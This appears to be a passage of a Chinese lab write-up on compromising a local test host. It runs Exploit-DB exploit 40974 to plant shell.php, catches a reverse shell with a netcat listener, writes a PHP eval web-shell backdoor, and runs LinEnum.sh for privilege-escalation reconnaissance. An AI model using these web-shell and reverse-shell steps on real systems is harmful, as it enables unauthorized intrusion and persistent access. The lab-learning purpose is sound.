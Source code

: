exp下载地址

[https://www.exploit-db.com/download/40974](https://www.exploit-db.com/download/40974)

需要修改几个地方

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-28.png)

运行exp

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-29.png)

点击`http://192.168.80.142/contact.php`链接以后就会在网站根目录生成一个shell.php

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-30.png)

 再次在浏览器打开`http://192.168.80.142/shell.php`触发生成一个反弹shell

```
nc -lnvp 4444
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-31.png)





##### 写入后门连接方便操作

```php
echo '<?php eval($_POST[x]);?>' >1.php
```

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-32.png)

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-33.png)

##### 上传信息收集脚本进行提权信息收集

![](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-34.png)

![64-35](https://gitee.com/small-leech-shrimp/typora_pic/raw/master/64-35.png)

没有执行权限，需要赋权,然后执行

```shell
chmod +x LinEnum.sh
./LinEnum.sh
```
